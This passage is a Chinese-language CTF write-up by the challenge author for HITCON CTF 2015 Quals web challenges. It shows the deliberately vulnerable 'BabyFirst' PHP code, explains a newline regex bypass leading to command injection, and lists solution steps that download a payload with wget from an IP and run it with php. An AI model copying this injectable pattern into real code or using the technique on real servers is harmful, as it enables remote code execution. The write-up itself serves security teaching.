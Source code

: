 # HITCON CTF 2015 Quals Web 出題心得

作者:`orange@chroot.org`  
Blog:[http://blog.orange.tw](http://blog.orange.tw/)

![cover](http://drops.javaweb.org/uploads/images/0310a670a917e66d4f6edd5d831f82ff281fa7a9.jpg)

p.s. 相關代碼皆放在 Github 上，有興趣研究之同學可以先看看代碼嘗試解解看後在敘述!

寫在 HITCON CTF 2015 Quals 之後  
作為出題團隊的一員，不得不說這次的難度真的不是有點高而已XD  
不過就身為 DEFCON 種子賽我覺得可以說是名符其實! :)

這次負責了所有的 Web 題目  
私心來說都是自信之作，把自己最近研究的一些東西出成題目XD  
就參賽者反應來說，讓他們在解題時覺得很難但解出後會有「原來如此」、「還可以這樣玩」的感覺是我這次主要出題的目的XD

0x01 100 BabyFirst (33 隊解)
=====

```
<?php
    highlight_file(__FILE__);
    $dir = 'sandbox/' . $_SERVER['REMOTE_ADDR'];
    if ( !file_exists($dir) )
        mkdir($dir);
    chdir($dir);
    $args = $_GET['args'];
    for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) )
            exit();
    }
    exec("/bin/orange " . implode(" ", $args));
?>

```

> [https://gist.github.com/orangetw/cb3487e47d7aaaea4692](https://gist.github.com/orangetw/cb3487e47d7aaaea4692)

作為本次 Web 最簡單的題目，純代碼分析並且只有十五行程式碼而已  
在比賽開始後兩小時才有人解出

簡單使用`\n`就可以繞過常見正規表示式沒有`match multiline`的問題， 不過難點在於可以`Command Injection`但是指令都限制在是`a-zA-Z0-9_`  
這也是最有趣的地方，每個隊伍的想法都不一樣所以會有很多種解法!

自己的官方解法是

```
mkdir orange
cd orange
wget HEXED_IP
tar cvf payload orange
php payload

```
